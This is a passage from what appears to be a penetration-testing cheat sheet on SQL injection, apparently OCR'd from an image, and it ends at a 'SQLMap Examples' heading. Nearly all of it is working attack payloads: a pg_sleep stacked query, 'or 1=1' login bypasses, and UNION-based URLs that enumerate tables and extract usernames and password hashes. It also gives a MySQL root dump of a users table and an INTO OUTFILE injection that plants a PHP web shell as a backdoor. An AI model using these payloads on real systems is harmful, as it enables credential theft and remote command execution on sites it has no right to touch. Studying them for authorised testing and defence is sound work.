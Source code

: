             `SELECT * FROM products WHERE name='Test';`

          - *Injection Value*
          
            `'; SELECT pg_sleep(30); --`

          - *Resulting Query*
         
            `SELECT * FROM products WHERE name='Test'; SELECT pg_sleep(30); --`

    -   Grab password hashes from a web application mysql database called “Users” - once you have the MySQL root username and        password  
    
              mysql -u root -p -h $ip
              use "Users"  
              show tables;  
              select \* from users;

    -   Authentication Bypass  
    
              name='wronguser' or 1=1;  
              name='wronguser' or 1=1 LIMIT 1;

    -   Enumerating the Database  
    
        `http://192.168.11.35/comment.php?id=738)'`  
        
        Verbose error message?  
        
        `http://$ip/comment.php?id=738 order by 1`
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,5,6  `
        
        Determine MySQL Version:  
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,@@version,6  `
        
        Current user being used for the database connection:
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,user(),6  `
        
        Enumerate database tables and column structures  
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables  `
        
        Target the users table in the database  
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where        table_name='users'  `
        
        Extract the name and password  
        
        `http://$ip/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a, password),6 FROM users ` 
        
        Create a backdoor
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE        'c:/xampp/htdocs/backdoor.php'`
        

    -   **SQLMap Examples**

      - Crawl the links
      